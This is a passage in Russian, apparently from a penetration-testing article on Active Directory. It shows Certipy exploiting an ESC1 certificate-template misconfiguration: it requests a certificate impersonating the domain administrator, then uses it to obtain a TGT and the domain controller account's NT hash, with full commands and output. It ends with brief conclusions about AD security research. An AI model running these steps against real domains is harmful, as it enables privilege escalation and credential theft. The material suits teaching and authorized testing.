 Далее приведен пример, как эксплуатировать одну из неправильных конфигураций для эскалации в домене с помощью Certipy.

Эксплуатация с Certipy

Запрос сертификата по шаблону создания сертификата для другого пользователя:

> $ certipy req -username john@corp.local -password Passw0rd -ca corp-DC-CA -target ca.corp.local -template ESC1-Test
> -upn administrator@corp.local -dns dc.corp.local

Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 780
[*] Got certificate with multiple identifications

    UPN: 'administrator@corp.local'
    DNS Host Name: 'dc.corp.local'

[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_dc.pfx'

Запрос TGT и получение NT хеша с использованием полученного ранее сертификата:

> $ certipy auth -pfx administrator_dc.pfx -dc-ip 172.16.126.128

Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Found multiple identifications in certificate
[*] Please select one:

    [0] UPN: 'administrator@corp.local'

    [1] DNS Host Name: 'dc.corp.local'

> 1
[*] Using principal: dc$@corp.local
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'dc.ccache'
[*] Trying to retrieve NT hash for 'dc$'
[*] Got NT hash for 'dc$@corp.local': 36a50f712629962b3d5a3641529187b0

### Выводы

Доменная инфраструктура и конкретно инфраструктура Microsoft Active Directory настолько сложна, наполнена зависимостями
и “наследием”, что в своих имплементациях содержит десятки и сотни возможных проблем конфигурации, за которыми сложно
или почти невозможно уследить.

Задачами исследователя безопасности являются:

энумерация всех возможных подходов в каждом сегменте доступа;
исполнение набора цикличных действий по попытке проанализировать защищенность каждого встречающегося в локальной сети
ресурса, протокола, механизма и пр. вплоть до достижения поставленной цели.  
